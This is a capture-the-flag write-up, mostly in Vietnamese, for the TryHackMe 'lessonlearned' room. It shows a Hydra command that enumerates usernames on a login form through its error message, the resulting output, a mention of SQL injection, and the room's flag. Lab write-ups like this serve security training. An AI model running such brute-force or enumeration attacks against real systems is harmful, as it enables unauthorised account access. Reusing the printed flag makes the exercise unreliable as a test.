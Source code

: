 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: Name
description: >
  
search:
  exclude: true
hide:
  - feedback

tags:
  - THM-Room 
  - Privilege Escalation
---
```


# __Name__

Room at https://tryhackme.com/room/lessonlearned

---

??? question "List of the questions solved"

    Question: name
    > Ans: THM{aab02c6b76bb752456a54c80c2d6fb1e}

## __Pentest scenario__

Host: 10.10.235.161

Bài này đề bài đã nêu rõ ràng vậy rồi, ta sẽ focus vào trang login.

### __Reconnaissance__

Sau một vài thao tác với trang web, ta có 1 vài nhận xét:

- Nếu sai username và password thì sẽ xuất ra thông báo "Invalid username and password."
- Có thể có lỗ hỏng SQLi

    ??? tip "Hint"
        ![](image-1.png)

Dựa vào nhận xét một, ta có 1 thủ thuật Brute Force username nho nhỏ bằng Hydra như bên dưới

```ps1 title="Hydra Brute force"
└─$ hydra -L $PASS_WORD -p a 10.10.235.161 http-post-form "/index.php:username=^USER^&password=^PASS^:F=Invalid username and password."             
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-02 14:21:45
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://10.10.235.161:80/index.php:username=^USER^&password=^PASS^:F=Invalid username and password.
[80][http-post-form] host: 10.10.235.161   login: martin   password: a
[80][http-post-form] host: 10.10.235.161   login: patrick   password: a
[80][http-post-form] host: 10.10.235.161   login: stuart   password: a
[80][http-post-form] host: 10.10.235.161   login: marcus   password: a
[80][http-post-form] host: 10.10.235.161   login: kelly   password: a
[80][http-post-form] host: 10.10.235.161   login: arnold   password: a
[80][http-post-form] host: 10.10.235.161   login: Martin   password: a
[STATUS] 642.00 tries/min, 642 tries in 00:01h, 8294813 to do in 215:21h, 16 active
[80][http-post-form] host: 10.10.235.161   login: karen   password: a
[80][http-post-form] host: 10.10.235.161   login: Patrick   password: a
[STATUS] 680.67 tries/min, 2042 tries in 00:03h, 8293413 to do in 203:05h, 16 active
[80][http-post-form] host: 10.10.235.161   login: Marcus   password: a
[80][http-post-form] host: 10.10.235.161   login: sophia   password: a
[80][http-post-form] host: 10.10.235.161   login: Stuart   password: a
[80][http-post-form] host: 10.10.235.161   login: PATRICK   password: a
[80][http-post-form] host: 10.10.235.161   login: Kelly   password: a
[STATUS] 647.71 tries/min, 4534 tries in 00:07h, 8290921 to do in 213:21h, 16 active
[80][http-post-form] host: 10.10.235.161   login: Karen   password: a
[80][http-post-form] host: 10.10.235.161   login: veronica   password: a
[80][http-post-form] host: 10.10.235.161   login: Arnold   password: a
[80][http-post-form] host: 10.10.235.161   login: naomi   password: a
[80][http-post-form] host: 10.10.235.161   login: MARTIN   password: a
[STATUS] 652.20 tries/min, 9783 tries in 00:15h, 8285672 to do in 211:45h, 16 active
```

Như hình trên, ta đã tìm được rất nhiều username (còn nhiều hơn thế nữa,...) và thông báo lỗi sẽ là "Invalid password.". Tôi có brute force password 1 user (bất kì) thì thấy việc tìm luôn cả password là điều không khả thi, có thể challenge này chuyên về SQLi khi có username. Wow, và tôi đã thử và có flag như hình bên dưới.

![](image.png)

## __What we learned__

1. Hydra
2. SQLi